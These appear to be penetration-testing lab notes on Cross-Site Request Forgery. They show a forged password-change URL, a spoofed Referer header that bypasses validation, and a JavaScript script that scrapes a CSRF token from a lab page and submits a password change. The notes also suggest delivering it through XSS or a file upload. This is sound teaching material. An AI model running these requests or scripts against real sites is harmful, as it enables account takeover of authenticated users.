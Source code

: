 # Cross-Site Request Forgery

Also known as CSRF, exploits the trust a web application has in the user’s browser. Trick a website to perform unwanted actions on a web application where a user is authenticated. This allows to send requests from off the site that the server will consider valid.

We can find a typical example of this vulnerability as follows:

* A site shows information about actions related to specific users, and whose data should remain confidential

{% code overflow="wrap" lineNumbers="true" %}
```bash
#Imagine we fill out a form to change the actual password of an account
#We change the password to $newpass
#We can see that the site processes the request and shows the data related to the action in the URL
http://$url/?password_new=$newpass&password_conf=$newpass&Change=Change

#As the session remains active even when closing the tab of the site, this will allow changes even from off the site
```
{% endcode %}

***

* Sometimes, it will not work directly, so we will need to check the source code to see the input conditions

{% tabs %}
{% tab title="Case 1" %}
Sometimes a validation could be done via request headers

{% code title="Example source code" overflow="wrap" lineNumbers="true" %}
```php
...
if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
...
```
{% endcode %}

In this case, we can modify our petition to assign the corresponding headers and bypass the validation

{% code title="Modified pettion" overflow="wrap" lineNumbers="true" %}
```http
...
Referer: http://$UrlOfProperSite/
...
```
{% endcode %}
{% endtab %}

{% tab title="Case 2" %}
Sometimes a validation could be done via a token generated in every page refresh

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/?password_new=$newpass&password_conf=$newpass&token=$token
```
{% endcode %}

We can search for this information in the source code of the page to confirm

<pre class="language-html" data-title="index.html" data-overflow="wrap" data-line-numbers><code class="lang-html">...
<strong>&#x3C;input type='hidden' name='user_token' value='5a92a11e5ff6dc8e94ae2d469c615e0d' />
</strong>...
</code></pre>

We see the token in this case is named _user\_token._ Knowing this, we can try to catch the token generated for the user and resend the petition to be validated. For this purpose, we can use the following script:

{% code title="CSRF.js" overflow="wrap" lineNumbers="true" %}
```javascript
fetch("http://tcmserver:8001/vulnerabilities/csrf/")
  .then((response) => response.text())
  .then((text) => {
    const parser = new DOMParser();
    const htmlDocument = parser.parseFromString(text, "text/html");
    const csrfToken = Array.from(htmlDocument.querySelectorAll("input")).filter(
      (input) => input.name === "user_token"
    )[0].value;
    console.log(csrfToken);
    const newPass = "newpass";
    const url = `http://tcmserver:8001/vulnerabilities/csrf/?password_new=${newPass}&password_conf=${newPass}&Change=Change&user_token=${csrfToken}`;
    fetch(url);
    console.log("Password changed to: " + newPass);
  });
```
{% endcode %}

{% hint style="info" %}
This can be done directly from the browser console, via an XSS vulnerable part, or a file upload vulnerable part
{% endhint %}

This will catch the token from the HTML of the site, show it to us, and immediately send another petition with this information to properly validate the changes
{% endtab %}
{% endtabs %}
